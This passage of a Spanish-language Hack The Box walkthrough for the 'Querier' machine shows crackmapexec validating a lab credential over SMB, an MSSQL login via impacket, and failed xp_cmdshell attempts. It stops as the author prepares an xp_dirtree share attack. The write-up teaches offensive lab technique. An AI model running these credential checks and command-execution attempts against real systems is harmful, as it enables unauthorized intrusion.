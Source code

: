 ```bash
❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6'
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [-] HTB.LOCAL\reporting:PcwTWTHRwryjc$c6 STATUS_NO_LOGON_SERVERS 
```

Vemos que nos reporta un **[-]**, pero lo maneja como dominio de **HTB.LOCAL**, vamos a probar si el usario existe pero a nivel del sistema y no de dominio:

```bash
❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6
```

Ahora si vemos un **[+]**, lo que significa que el usuario existe a nivel de sistema. Una vez que validamos las credenciales, podemos conectarnos al servicio de *Microsoft SQL Server*:

```bash
❯ mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth
/usr/local/lib/python2.7/dist-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Vamos a probar si podemos ejecutar algunos comandos:

```bash
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL> sp_configure "show advanced", 1
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
SQL>
```

Vemos que no podemos ejecutar comandos a nivel de sistema ni tampoco tenemos privilegios para alterar la configuración que nos pueda permitir habilitar la ejecución de comandos. Por lo tanto, lo que nos queda sería tratar de acceder a un recurso compartido por red mediante el uso del comando `xp_dirtree`. Asi que, nos compartimos un recurso desde nuestra máquina de atacante:
